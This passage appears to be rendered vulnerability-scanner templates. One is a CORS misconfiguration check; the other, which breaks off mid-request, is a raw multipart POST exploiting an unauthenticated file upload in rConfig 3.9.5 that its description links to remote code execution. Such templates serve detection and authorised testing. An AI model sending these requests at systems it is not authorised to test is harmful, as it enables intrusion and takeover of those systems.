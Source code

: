 
# CORS Misconfiguration

- severity - info
- tags - cors,generic,misconfig

## Requests

### Step - 1

```
GET  HTTP/1.1
Host: {{Hostname}}
Origin: {{cors_origin}}

```

### Matchers

**Type - dsl**

- name - arbitrary-origin
- dsl
  1. contains(tolower(all_headers), 'access-control-allow-origin: {{cors_origin}}')
  2. contains(tolower(all_headers), 'access-control-allow-credentials: true')
- condition - and

**Payloads**- cors_origin

---

# rConfig 3.9.5 - Arbitrary File Upload

## Description

- rConfig 3.9.5 is susceptible to an arbitrary file upload via the userprocess.php endpoint. An attacker can execute malware, obtain sensitive information, modify data, and/or gain full control over a compromised system without entering necessary credentials.
- severity - high
- tags - rconfig,rce,edb

## Requests

### Step - 1

```
POST /lib/crud/userprocess.php HTTP/1.1
Host: {{Hostname}}
Accept: */*
Content-Type: multipart/form-data; boundary=01b28e152ee044338224bf647275f8eb
Cookie: PHPSESSID={{randstr}}

--01b28e152ee044338224bf647275f8eb
Content-Disposition: form-data; name="username"

{{randstr}}
--01b28e152ee044338224bf647275f8eb
Content-Disposition: form-data; name="passconf"

Testing1@
--01b28e152ee044338224bf647275f8eb
Content-Disposition: form-data; name="password"

```